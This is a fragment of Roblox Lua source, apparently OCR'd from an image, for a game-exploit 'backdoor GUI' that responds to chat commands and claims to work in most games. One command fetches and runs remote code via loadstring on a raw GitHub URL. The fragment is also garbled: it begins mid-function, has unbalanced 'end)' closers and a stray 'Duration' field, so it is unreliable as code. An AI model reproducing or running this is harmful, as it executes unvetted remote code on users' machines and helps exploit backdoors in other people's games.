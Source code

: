 local message = Instance.new("Message",workspace)
message.Text = "[COMMAND LIST SHOWN]"
wait(2)
message:Destroy()
end)
game:GetService("StarterGui"):SetCore("SendNotification", { 

	Title = "Important Message";

	Text = "To See Command /console";

	Icon = "rbxthumb://type=Asset&id=https:8403291188&w=150&h=150"})

Duration = 20;  
elseif cht:match(";goofygui") then
loadstring(game:HttpGet('https://raw.githubusercontent.com/yeerma/1/main/the_greatest_script_ever_made'))()
 spawn(function()
local message = Instance.new("Message",workspace)
message.Text = "[Loaded Goofy Gui]"
wait(3)
message:Destroy()
end)
 end
end)

--lolll

game.StarterGui:SetCore("ChatMakeSystemMessage", {
	Text = "|[To see Command List Say ;cmds]|";
	Color = Color3.new(0, 15, 0);
	Font = Enum.Font.SourceSansBold;
	FontSize = Enum.FontSize.Size24;
})
 
game.StarterGui:SetCore("ChatMakeSystemMessage", {
	Text = "|[ONLY FOR UNSUPP GAMES!!!]|";
	Color = Color3.new(0, 18, 0);
	Font = Enum.Font.SourceSansBold;
	FontSize = Enum.FontSize.Size24;
})


spawn(function()
local message = Instance.new("Message",workspace)
message.Text = "[BACKDOOR GUI LOADED]"
wait(6)
message:Destroy()
end)
game:GetService("StarterGui"):SetCore("SendNotification", { 

	Title = "Info Message";

	Text = "Works for most all games";

	Icon = "rbxthumb://type=Asset&id=https:8403291188&w=150&h=150"})
